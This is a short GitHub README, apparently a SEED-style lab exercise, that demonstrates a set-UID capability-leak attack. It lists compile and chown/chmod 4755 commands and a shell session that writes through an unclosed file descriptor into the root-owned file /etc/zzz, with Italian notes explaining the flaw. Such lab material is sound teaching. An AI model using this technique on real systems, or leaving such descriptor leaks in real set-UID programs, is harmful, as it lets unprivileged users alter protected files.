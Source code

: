 # capability-leak-attack
This is a linux bash capability leak attack whit C program.

CAPABILITY LEAKING of set-UID

You need to compile cap_leaking.c
`gcc -o cap_leaking cap_leaking.c`

change the user owner and set the set-UID in the cap_leaking file
`sudo chown root cap_leaking`
`sudo chmod 4755 cap_leaking`


Now if I run the program it print the number of file descriptor.
`fd is 3`
`Real user id is 1000`
`Effective user id is 1000`
`$whoami`
`$seed`
`$echo bbbbbb >&3`
`$cat /etc/zzz`
`$this is a very important file`
` bbbbbb`



######
Il problema qua e' che non e' stato chiuso il file descriptor del file e quindi la shell che apro ha gli stessi privilegi di root.
Il file descriptor e' indicato con il numero 3
Normalemente non sono abilitato a scrivere nel file zzz ma quando abilito il 4755 chmod nel programma .c allora apro la shell con gli stessi privilegi del proprietario del file cioe' root.
#####
